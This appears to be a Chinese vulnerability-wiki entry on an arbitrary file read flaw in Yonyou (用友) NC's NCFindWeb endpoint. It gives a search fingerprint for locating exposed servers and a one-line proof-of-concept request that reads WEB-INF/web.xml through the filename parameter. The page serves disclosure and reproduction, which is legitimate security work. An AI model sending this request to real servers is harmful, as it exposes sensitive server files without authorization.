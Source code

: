 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>用友NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1085941792"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC

```
 /NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml
```

![img](/assets/PeiQi-Wiki/img/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)
